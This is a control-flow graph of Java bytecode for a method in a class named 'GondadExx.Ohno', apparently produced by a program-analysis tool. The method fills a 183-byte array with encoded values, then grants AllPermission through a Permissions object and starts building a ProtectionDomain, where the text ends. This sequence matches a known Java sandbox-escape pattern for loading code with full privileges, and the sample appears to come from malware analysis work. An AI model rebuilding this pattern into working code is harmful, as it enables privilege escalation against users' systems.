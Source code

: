 digraph "" {
    "r0 := @this: GondadExx.Ohno"
    "push 183"
    "r0 := @this: GondadExx.Ohno"->"push 183";
    "newarray"
    "push 183"->"newarray";
    "store.r r5"
    "newarray"->"store.r r5";
    "load.r r5"
    "store.r r5"->"load.r r5";
    "push 0"
    "load.r r5"->"push 0";
    "push -42"
    "push 0"->"push -42";
    "arraywrite.b"
    "push -42"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 1"
    "load.r r5"->"push 1";
    "push -105"
    "push 1"->"push -105";
    "push -105"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 2"
    "load.r r5"->"push 2";
    "push 122"
    "push 2"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 3"
    "load.r r5"->"push 3";
    "push 127"
    "push 3"->"push 127";
    "push 127"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 4"
    "load.r r5"->"push 4";
    "push 15"
    "push 4"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 5"
    "load.r r5"->"push 5";
    "push 8"
    "push 5"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 6"
    "load.r r5"->"push 6";
    "push 6"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 7"
    "load.r r5"->"push 7";
    "push 105"
    "push 7"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 8";
    "push 33"
    "push 8"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 9"
    "load.r r5"->"push 9";
    "push 54"
    "push 9"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 10"
    "load.r r5"->"push 10";
    "push 16"
    "push 10"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 11"
    "load.r r5"->"push 11";
    "push 27"
    "push 11"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 12"
    "load.r r5"->"push 12";
    "push 12"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 13"
    "load.r r5"->"push 13";
    "push 13"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 14"
    "load.r r5"->"push 14";
    "push 84"
    "push 14"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 15";
    "push 22"
    "push 15"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 16";
    "push 16"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 17"
    "load.r r5"->"push 17";
    "push 20"
    "push 17"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 18"
    "load.r r5"->"push 18";
    "push 29"
    "push 18"->"push 29";
    "push 29"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 19"
    "load.r r5"->"push 19";
    "push 19"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 20";
    "push 53"
    "push 20"->"push 53";
    "push 53"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 21"
    "load.r r5"->"push 21";
    "push 24"
    "push 21"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 22";
    "push 22"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 23"
    "load.r r5"->"push 23";
    "push 31"
    "push 23"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 24";
    "push 25"
    "push 24"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 25";
    "push 25"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 26"
    "load.r r5"->"push 26";
    "push 65"
    "push 26"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 27";
    "push -22"
    "push 27"->"push -22";
    "push -22"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 28"
    "load.r r5"->"push 28";
    "push -76"
    "push 28"->"push -76";
    "push -76"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 29";
    "push 34"
    "push 29"->"push 34";
    "push 34"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 30"
    "load.r r5"->"push 30";
    "push -27"
    "push 30"->"push -27";
    "push -27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 31";
    "push 106"
    "push 31"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 32"
    "load.r r5"->"push 32";
    "push 32"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 33";
    "push 83"
    "push 33"->"push 83";
    "push 83"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 34";
    "push 34"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 35"
    "load.r r5"->"push 35";
    "push 120"
    "push 35"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 36"
    "load.r r5"->"push 36";
    "push 36"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 37"
    "load.r r5"->"push 37";
    "push 37"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 38"
    "load.r r5"->"push 38";
    "push 38"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 39"
    "load.r r5"->"push 39";
    "push 39"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 40"
    "load.r r5"->"push 40";
    "push 40"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 41"
    "load.r r5"->"push 41";
    "push 41"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 42"
    "load.r r5"->"push 42";
    "push 42"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 43"
    "load.r r5"->"push 43";
    "push 43"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 44"
    "load.r r5"->"push 44";
    "push 44"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 45"
    "load.r r5"->"push 45";
    "push 45"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 46"
    "load.r r5"->"push 46";
    "push 46"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 47"
    "load.r r5"->"push 47";
    "push 107"
    "push 47"->"push 107";
    "push 107"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 48"
    "load.r r5"->"push 48";
    "push 48"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 49"
    "load.r r5"->"push 49";
    "push 49"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 50"
    "load.r r5"->"push 50";
    "push 61"
    "push 50"->"push 61";
    "push 61"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 51"
    "load.r r5"->"push 51";
    "push 51"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 52"
    "load.r r5"->"push 52";
    "push 52"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 53";
    "push 53"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 54";
    "push 54"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 55"
    "load.r r5"->"push 55";
    "push 55"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 56"
    "load.r r5"->"push 56";
    "push 63"
    "push 56"->"push 63";
    "push 63"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 57"
    "load.r r5"->"push 57";
    "push 57"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 58"
    "load.r r5"->"push 58";
    "push 58"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 59"
    "load.r r5"->"push 59";
    "push 59"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 60"
    "load.r r5"->"push 60";
    "push 60"->"push 61";
    "push 61"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 61";
    "push 61"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 62"
    "load.r r5"->"push 62";
    "push 62"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 63";
    "push 63"->"push 30";
    "push 30"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 64"
    "load.r r5"->"push 64";
    "push 64"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 65";
    "push -124"
    "push 65"->"push -124";
    "push -124"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 66"
    "load.r r5"->"push 66";
    "push 86"
    "push 66"->"push 86";
    "push 86"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 67"
    "load.r r5"->"push 67";
    "push -18"
    "push 67"->"push -18";
    "push -18"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 68"
    "load.r r5"->"push 68";
    "push 68"->"push 107";
    "push 107"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 69"
    "load.r r5"->"push 69";
    "push -14"
    "push 69"->"push -14";
    "push -14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 70"
    "load.r r5"->"push 70";
    "push -52"
    "push 70"->"push -52";
    "push -52"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 71"
    "load.r r5"->"push 71";
    "push -97"
    "push 71"->"push -97";
    "push -97"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 72"
    "load.r r5"->"push 72";
    "push -123"
    "push 72"->"push -123";
    "push -123"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 73"
    "load.r r5"->"push 73";
    "push 73"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 74"
    "load.r r5"->"push 74";
    "push 74"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 75"
    "load.r r5"->"push 75";
    "push 75"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 76"
    "load.r r5"->"push 76";
    "push 76"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 77"
    "load.r r5"->"push 77";
    "push 77"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 78"
    "load.r r5"->"push 78";
    "push 78"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 79"
    "load.r r5"->"push 79";
    "push 79"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 80"
    "load.r r5"->"push 80";
    "push 80"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 81"
    "load.r r5"->"push 81";
    "push 123"
    "push 81"->"push 123";
    "push 123"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 82"
    "load.r r5"->"push 82";
    "push 82"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 83";
    "push 83"->"push 9";
    "push 9"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 84";
    "push 84"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 85"
    "load.r r5"->"push 85";
    "push 85"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 86";
    "push 86"->"push 74";
    "push 74"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 87"
    "load.r r5"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 88"
    "load.r r5"->"push 88";
    "push 88"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 89"
    "load.r r5"->"push 89";
    "push 89"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 90"
    "load.r r5"->"push 90";
    "push 90"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 91"
    "load.r r5"->"push 91";
    "push 91"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 92"
    "load.r r5"->"push 92";
    "push 92"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 93"
    "load.r r5"->"push 93";
    "push 93"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 94"
    "load.r r5"->"push 94";
    "push 94"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 95"
    "load.r r5"->"push 95";
    "push 95"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 96"
    "load.r r5"->"push 96";
    "push 96"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 97"
    "load.r r5"->"push 97";
    "push 97"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 98"
    "load.r r5"->"push 98";
    "push 98"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 99"
    "load.r r5"->"push 99";
    "push 99"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 100"
    "load.r r5"->"push 100";
    "push 100"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 101"
    "load.r r5"->"push 101";
    "push 101"->"push 15";
    "push 15"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 102"
    "load.r r5"->"push 102";
    "push 102"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 103"
    "load.r r5"->"push 103";
    "push 103"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 104"
    "load.r r5"->"push 104";
    "push 104"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 105";
    "push 105"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 106";
    "push 106"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 107";
    "push 107"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 108"
    "load.r r5"->"push 108";
    "push 108"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 109"
    "load.r r5"->"push 109";
    "push 109"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 110"
    "load.r r5"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 111"
    "load.r r5"->"push 111";
    "push 111"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 112"
    "load.r r5"->"push 112";
    "push 112"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 113"
    "load.r r5"->"push 113";
    "push 113"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 114"
    "load.r r5"->"push 114";
    "push 114"->"push 84";
    "push 84"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 115"
    "load.r r5"->"push 115";
    "push 115"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 116"
    "load.r r5"->"push 116";
    "push 116"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 117"
    "load.r r5"->"push 117";
    "push 117"->"push 21";
    "push 21"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 118"
    "load.r r5"->"push 118";
    "push 118"->"push 23";
    "push 23"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 119"
    "load.r r5"->"push 119";
    "push 119"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 120";
    "push 120"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 121"
    "load.r r5"->"push 121";
    "push 121"->"push 40";
    "push 40"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 122";
    "push 122"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 123";
    "push 123"->"push 28";
    "push 28"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 124"
    "load.r r5"->"push 124";
    "push 124"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 125"
    "load.r r5"->"push 125";
    "push 125"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 126"
    "load.r r5"->"push 126";
    "push 126"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "load.r r5"->"push 127";
    "push 127"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 128"
    "load.r r5"->"push 128";
    "push 128"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 129"
    "load.r r5"->"push 129";
    "push 129"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 130"
    "load.r r5"->"push 130";
    "push 130"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 131"
    "load.r r5"->"push 131";
    "push 131"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 132"
    "load.r r5"->"push 132";
    "push 132"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 133"
    "load.r r5"->"push 133";
    "push 133"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 134"
    "load.r r5"->"push 134";
    "push 134"->"push 3";
    "push 3"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 135"
    "load.r r5"->"push 135";
    "push -45"
    "push 135"->"push -45";
    "push -45"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 136"
    "load.r r5"->"push 136";
    "push -88"
    "push 136"->"push -88";
    "push -88"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 137"
    "load.r r5"->"push 137";
    "push -92"
    "push 137"->"push -92";
    "push -92"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 138"
    "load.r r5"->"push 138";
    "push -37"
    "push 138"->"push -37";
    "push -37"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 139"
    "load.r r5"->"push 139";
    "push -60"
    "push 139"->"push -60";
    "push -60"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 140"
    "load.r r5"->"push 140";
    "push 140"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 141"
    "load.r r5"->"push 141";
    "push 141"->"push 26";
    "push 26"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 142"
    "load.r r5"->"push 142";
    "push 142"->"push 118";
    "push 118"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 143"
    "load.r r5"->"push 143";
    "push 143"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 144"
    "load.r r5"->"push 144";
    "push 144"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 145"
    "load.r r5"->"push 145";
    "push 145"->"push 123";
    "push 123"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 146"
    "load.r r5"->"push 146";
    "push 146"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 147"
    "load.r r5"->"push 147";
    "push 147"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 148"
    "load.r r5"->"push 148";
    "push 148"->"push 127";
    "push 127"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 149"
    "load.r r5"->"push 149";
    "push 149"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 150"
    "load.r r5"->"push 150";
    "push 150"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 151"
    "load.r r5"->"push 151";
    "push 151"->"push 8";
    "push 8"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 152"
    "load.r r5"->"push 152";
    "push 152"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 153"
    "load.r r5"->"push 153";
    "push 153"->"push 3";
    "push 3"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 154"
    "load.r r5"->"push 154";
    "push 154"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 155"
    "load.r r5"->"push 155";
    "push 155"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 156"
    "load.r r5"->"push 156";
    "push 156"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 157"
    "load.r r5"->"push 157";
    "push 157"->"push 33";
    "push 33"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 158"
    "load.r r5"->"push 158";
    "push 158"->"push 54";
    "push 54"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 159"
    "load.r r5"->"push 159";
    "push 159"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 160"
    "load.r r5"->"push 160";
    "push 160"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 161"
    "load.r r5"->"push 161";
    "push 161"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 162"
    "load.r r5"->"push 162";
    "push 162"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 163"
    "load.r r5"->"push 163";
    "push 163"->"push 85";
    "push 85"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 164"
    "load.r r5"->"push 164";
    "push 164"->"push 22";
    "push 22"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 165"
    "load.r r5"->"push 165";
    "push 165"->"push 27";
    "push 27"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 166"
    "load.r r5"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 167"
    "load.r r5"->"push 167";
    "push 167"->"push 29";
    "push 29"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 168"
    "load.r r5"->"push 168";
    "push 168"->"push 85";
    "push 85"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 169"
    "load.r r5"->"push 169";
    "push 169"->"push 53";
    "push 53"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 170"
    "load.r r5"->"push 170";
    "push 170"->"push 24";
    "push 24"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 171"
    "load.r r5"->"push 171";
    "push 171"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 172"
    "load.r r5"->"push 172";
    "push 172"->"push 31";
    "push 31"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 173"
    "load.r r5"->"push 173";
    "push 173"->"push 25";
    "push 25"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 174"
    "load.r r5"->"push 174";
    "push 174"->"push 14";
    "push 14"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 175"
    "load.r r5"->"push 175";
    "push 175"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 176"
    "load.r r5"->"push 176";
    "push 176"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 177"
    "load.r r5"->"push 177";
    "push 177"->"push 10";
    "push 10"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 178"
    "load.r r5"->"push 178";
    "push 178"->"push 11";
    "push 11"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 179"
    "load.r r5"->"push 179";
    "push 179"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 180"
    "load.r r5"->"push 180";
    "push 180"->"push 4";
    "push 4"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 181"
    "load.r r5"->"push 181";
    "push 181"->"push 122";
    "push 122"->"arraywrite.b";
    "arraywrite.b"->"load.r r5";
    "push 182"
    "load.r r5"->"push 182";
    "push 182"->"push 121";
    "push 121"->"arraywrite.b";
    "new java.security.Permissions"
    "arraywrite.b"->"new java.security.Permissions";
    "store.r r6"
    "new java.security.Permissions"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.security.Permissions: void <init>()>"
    "load.r r6"->"specialinvoke <java.security.Permissions: void <init>()>";
    "specialinvoke <java.security.Permissions: void <init>()>"->"load.r r6";
    "new java.security.AllPermission"
    "load.r r6"->"new java.security.AllPermission";
    "dup1.r"
    "new java.security.AllPermission"->"dup1.r";
    "specialinvoke <java.security.AllPermission: void <init>()>"
    "dup1.r"->"specialinvoke <java.security.AllPermission: void <init>()>";
    "virtualinvoke <java.security.Permissions: void add(java.security.Permission)>"
    "specialinvoke <java.security.AllPermission: void <init>()>"->"virtualinvoke <java.security.Permissions: void add(java.security.Permission)>";
    "new java.security.ProtectionDomain"
    "virtualinvoke <java.security.Permissions: void add(java.security.Permission)>"->"new java.security.ProtectionDomain";
    "store.r $r12"
    "new java.security.ProtectionDomain"->"store.r $r12";
    "load.r $r12"
    "store.r $r12"->"load.r $r12";
    "new java.security.CodeSource"
    "load.r $r12"->"new java.security.CodeSource";
